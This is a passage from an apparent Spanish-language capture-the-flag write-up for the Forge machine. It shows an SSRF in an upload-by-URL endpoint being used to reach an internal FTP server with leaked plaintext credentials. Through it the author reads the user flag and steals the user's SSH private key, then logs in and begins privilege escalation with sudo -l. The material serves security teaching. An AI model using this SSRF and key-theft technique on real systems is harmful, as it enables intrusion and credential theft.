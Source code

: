 Vemos que han dejado escritas en texto plano las credenciales para conectarse a un servidor FTP interno y que ahora el endpoit admite protocolos **`ftp`**, **`ftps`**, **`http`** y **`https`** para subidas por URL.

> An internal ftp server has been setup with credentials as **user:heightofsecurity123!**

Con lo que sabemos, ahora podemos construir el siguiente enlace, subirlo por URL y repetir el proceso con curl para ver el resultado:

> http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@127.0.1.1/

```console
p3ntest1ng:~$ curl http://forge.htb/uploads/peOV0M5vZoVgXKmRIBmT

drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 20 18:05 user.txt
```

Conseguimos ver los archivos alojados en el servidor FTP asi que añadimos el archivo **`user.txt`** a la URL creada anteriormente,
volvemos a subirla y repetimos el mismo proceso con curl para leer la flag del usuario.

```console
p3ntest1ng:~$ curl http://forge.htb/uploads/AYwkasyzqI77J0JELp8z
5ce2a56c599986911928f8861266648a
```

En vista de que podemos leer archivos del sistema con este método, vamos a intentar leer el archivo **`id_rsa`**
Construimos la URL de la consulta, la subimos con el upload y hacemos curl al enlace generado:

> http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@127.0.1.1/.ssh/id_rsa

Una vez tengamos la información del archivo, lo creamos en nuestra máquina, le damos permisos con **`chmod 600 forgekey`** y ya podemos conectarnos por SSH.

```console
p3ntest1ng:~$ ssh -i forgekey user@forge.htb
```

```console
-bash-5.0$ ls
snap  user.txt
-bash-5.0$ cat user.txt 
5ce2a56c599986911928f8861266648a
-bash-5.0$ 
```

## Escalada de Privilegios

Lo primero que yo siempre compruebo son los permisos a nivel de sudo con **`sudo -l`**

```console
-bash-5.0$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py 
```
